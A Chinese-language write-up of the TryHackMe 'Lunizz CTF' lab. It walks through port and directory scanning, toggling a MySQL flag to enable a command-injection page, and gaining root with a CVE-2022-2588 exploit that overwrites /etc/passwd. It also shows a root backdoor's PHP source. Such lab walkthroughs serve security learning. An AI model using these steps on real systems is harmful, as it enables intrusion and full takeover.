 ```yaml
---
sidebar_position: 134
tags: [Easy, Linux, 命令注入]
title: "Lunizz CTF"
description: "Lunizz CTF"
sidebar_label: "Lunizz CTF"
slug: /tryhackme/134
---
```


# Lunizz CTF

## 端口扫描

```bash
root@ip-10-10-139-140:~/lunizzctfnd# nmap -sTCV -p 80,3306,4444,5000 --min-rate 1000 10.10.9.166

Starting Nmap 7.60 ( https://nmap.org ) at 2023-10-03 10:08 BST
Nmap scan report for ip-10-10-9-166.eu-west-1.compute.internal (10.10.9.166)
Host is up (0.00019s latency).

PORT     STATE SERVICE    VERSION
80/tcp   open  http       Apache httpd 2.4.29 ((Ubuntu))
|_http-server-header: Apache/2.4.29 (Ubuntu)
|_http-title: Apache2 Ubuntu Default Page: It works
3306/tcp open  mysql      MySQL 5.7.33-0ubuntu0.18.04.1
| mysql-info: 
|   Protocol: 10
|   Version: 5.7.33-0ubuntu0.18.04.1
|   Thread ID: 5
|   Capabilities flags: 65535
|   Some Capabilities: LongPassword, Support41Auth, LongColumnFlag, InteractiveClient, FoundRows, SupportsCompression, SwitchToSSLAfterHandshake, IgnoreSpaceBeforeParenthesis, SupportsTransactions, ODBCClient, IgnoreSigpipes, Speaks41ProtocolNew, SupportsLoadDataLocal, DontAllowDatabaseTableColumn, ConnectWithDatabase, Speaks41ProtocolOld, SupportsMultipleStatments, SupportsMultipleResults, SupportsAuthPlugins
|   Status: Autocommit
|   Salt: 5bQ.\x19\x02\\x02"#\x17r\x1C:@HOaP0
|_  Auth Plugin Name: 96
4444/tcp open  tcpwrapped
5000/tcp open  tcpwrapped
MAC Address: 02:4B:D8:FC:FB:D5 (Unknown)

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
```

## 80

```bash
root@ip-10-10-139-140:~/lunizzctfnd# gobuster dir -u http://10.10.9.166/ -w /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt -x php,txt,html
===============================================================
Gobuster v3.0.1
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@_FireFart_)
===============================================================
[+] Url:            http://10.10.9.166/
[+] Threads:        10
[+] Wordlist:       /usr/share/wordlists/SecLists/Discovery/Web-Content/directory-list-2.3-medium.txt
[+] Status codes:   200,204,301,302,307,401,403
[+] User Agent:     gobuster/3.0.1
[+] Extensions:     php,txt,html
[+] Timeout:        10s
===============================================================
2023/10/03 10:10:10 Starting gobuster
===============================================================
/index.html (Status: 200)
/instructions.txt (Status: 200)
/hidden (Status: 301)
/whatever (Status: 301)
/server-status (Status: 403)
===============================================================
2023/10/03 10:20:03 Finished
===============================================================
```

访问扫描出来的文件:

- instructions.txt : 告知了 Mysql 的账号
- hidden  : 一个文件上传的位置限制了上传的类型
- whatever  : 命令执行的位置, 但是我执行没有任何效果, 但是在其上有一个标识, 感觉是这个应该是开关

![image-20240709153621233](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-161428.png)

## 3306

利用得到的账号访问数据库, 发现其中的数据表中只有一个列, 从数据表的名称 runchek 推断这应该就是我们的开关, 所以我将其修改为 1 并回到 80 端口进行执行

```bash
root@ip-10-10-139-140:~/lunizzctfnd# mysql -h 10.10.9.166 -u runcheck -p 
Enter password: 
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 11
Server version: 5.7.33-0ubuntu0.18.04.1 (Ubuntu)

Copyright (c) 2000, 2023, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql> show databases;
+--------------------+
| Database           |
+--------------------+
| information_schema |
| runornot           |
+--------------------+
2 rows in set (0.02 sec)

mysql> use runornot;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+--------------------+
| Tables_in_runornot |
+--------------------+
| runcheck           |
+--------------------+
1 row in set (0.02 sec)

mysql> SELECT * FROM runcheck;
+------+
| run  |
+------+
|    0 |
+------+
1 row in set (0.02 sec)
mysql> UPDATE runcheck SET run=1;
Query OK, 1 row affected (0.01 sec)
Rows matched: 1  Changed: 1  Warnings: 0

mysql> SELECT * FROM runcheck;
+------+
| run  |
+------+
|    1 |
+------+
1 row in set (0.00 sec)
```

## 80

首先我们可以看到原本的 mode 已经发生改变了

![image-20240709153502264](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-161431.png)

![image-20240709153508747](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-161437.png)

## 后渗透

### www-data

利用上面的命令注入获取一个 Shell

![image-20240709153533906](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-161438.png)

### www-data —> root

执行 linpeas 发现一个 CVE 漏洞我们可以利用此来进行提权

![image-20240709153523316](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-161440.png)

但是在我利用时发现无法使用

![image-20240709161510369](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-161511.png)

 看了论坛后其提示我使用另一个漏洞 [GitHub - Markakd/CVE-2022-2588: exploit for CVE-2022-2588](https://github.com/Markakd/CVE-2022-2588/tree/master)

```bash
(remote) www-data@lunizz:/tmp$ ./exp_file_credential 
self path /tmp/./exp_file_credential
prepare done
Old limits -> soft limit= 4096 	 hard limit= 4096 
starting exploit, num of cores: 1
defrag done
spray 256 done
freed the filter object
256 freed done
double free done
spraying files
found overlap, id : 13, 318
start slow write
closed overlap
got cmd, start spraying /etc/passwd
spray done
write done, spent 1.381854 s
should be after the slow write
succeed
(remote) www-data@lunizz:/tmp$ cat /etc/passwd
user:$1$user$k8sntSoh7jhsc6lwspjsU.:0:0:/root/root:/bin/bash  # 密码是 user
(remote) www-data@lunizz:/tmp$ su user
Password: 
\[\](remote)\[\] \[\]user@lunizz\[\]:\[\]/tmp\[\]$ id
uid=0(user) gid=0(root) groups=0(root)
```

# 扩展

## 8080

如果你查看进程你会发现其在 8080 端口以 root 身份运行了一个程序, 我们可以使用端口转发将其代理处理, 但是其需要密码进行连接, 我们可以通过查看源代码进行了解. 可以看成这是一个后门

```bash
\[\](remote)\[\] \[\]user@lunizz\[\]:\[\]/root\[\]$ cat index.php
<?php
if ($_SERVER['REQUEST_METHOD'] == "POST") {
        if (isset($_POST['password']) and $_POST['password'] == "northernlights") {
                if (isset($_POST['cmdtype'])) {
                        if ($_POST['cmdtype'] == "passwd") { system("echo -n 'northernlights\nnorthernlights' | passwd"); echo "<br>Password Changed To :northernlights<br>"; }
                        if ($_POST['cmdtype'] == "lsla") { system("ls -al /root"); }
                        if ($_POST['cmdtype'] == "reboot") { system("reboot"); }
                }
        } else {
                echo "Wrong Password [your place ;)]!! \n";
        }
}
?>
**********************************************************
*                Mason's Root Backdoor                   *
*                                                        *
*   Please Send Request (with "password" and "cmdtype")  *
*                                                        *
**********************************************************
-------------CMD TYPES-------------
lsla
reboot
passwd
```

![image-20240709161517872](https://github.com/Guardian-JTZ/Image/raw/main/img/2024/07/09/20240709-161518.png)
